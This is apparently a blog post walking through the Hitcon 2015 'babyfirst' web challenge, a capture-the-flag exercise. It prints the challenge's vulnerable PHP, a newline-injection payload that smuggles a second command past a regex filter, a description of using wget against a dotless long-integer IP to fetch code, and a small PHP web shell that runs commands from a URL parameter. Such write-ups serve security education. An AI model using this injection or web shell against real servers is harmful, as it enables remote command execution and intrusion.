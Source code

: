 ```yaml
---
layout:     post
title:      "Web 100 baby first"
subtitle:   "Hitcon Ctf"
date:       2015-10-19 20:45:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>This CTF challenges were very cool, I liked the challenges. I would like write today on web 100 , baby first challenge. I spend most of my time solving this  challenge, but I didn't get it.</p>

<p>Source Code:<br>
&#x3C;?php<br>
    highlight_file(__FILE__);<br>
    $dir = &#x27;sandbox/&#x27; . $_SERVER[&#x27;REMOTE_ADDR&#x27;];<br>
    if ( !file_exists($dir) )<br>
        mkdir($dir);<br>
    chdir($dir);<br>
<br>
    $args = $_GET[&#x27;args&#x27;];<br>
    for ( $i=0; $i&#x3C;count($args); $i++ ){<br>
        if ( !preg_match(&#x27;/^\w+$/&#x27;, $args[$i]) )<br>
            exit();<br>
    }<br>
    exec(&#x22;/bin/orange &#x22; . implode(&#x22; &#x22;, $args));<br>
?&#x3E;<br>

<p>During CTF, when I got the problem source code was visible due to the "highlight_file" function in php. After that it had function to make the directory. Butwhen I deployed the challenge, there was no directory created. </p>

<p>The argument were passed through the GET parameter, then there is for loop which loops till count of arguments. Everything was "0k" till now, exept the preg_match() which was filtering only the letters, characters and digits. This was a tension, I have to somehow bypass the preg_match() function.</p>

<p>Ya this was hard phase, because after this function you have exec() which executes the command. But in the case here, there is /bin/orange , I don't know what was orange  anyway. I was think to use && or ; but that would not work.</p>

<p>For bypassing this function, we have to pass the argument as args[]=a%0A&args[]=touch&args[]=i4info. So now the problem was, what to do next? You can neither use dot or anyother command which would help us. But only thing we could do was , we have to use wget command but for that also, you would have give an IP addrss which don't contain dot. That's intresting an IP without dots.</p>

<p>This was totally new concept, we have to use something called resolving ip. Thus we can make the ip to long number format. Thus we can execute the wget command. You could do this all in folder such that you can make it a tar and execute php of the tar, anyway php will be executed. The exploit to be taken while wget is given below. Its really superb problem, the way of thinking that we take is very nice.</p>

<p>Exploit:<br>
&#x3C;?php<br>
file_put_contents(&#x27;shell.php&#x27;, &#x27;<br>
    &#x3C;?php<br>
    header(&#x22;Content-Type: text/plain&#x22;);<br>
    print shell_exec($_GET[&#x22;cmd&#x22;]);<br>
    ?&#x3E;<br>
&#x27;);<br>
?&#x3E;<br>
</p>

<p>Thank you for reading the blog! </p>

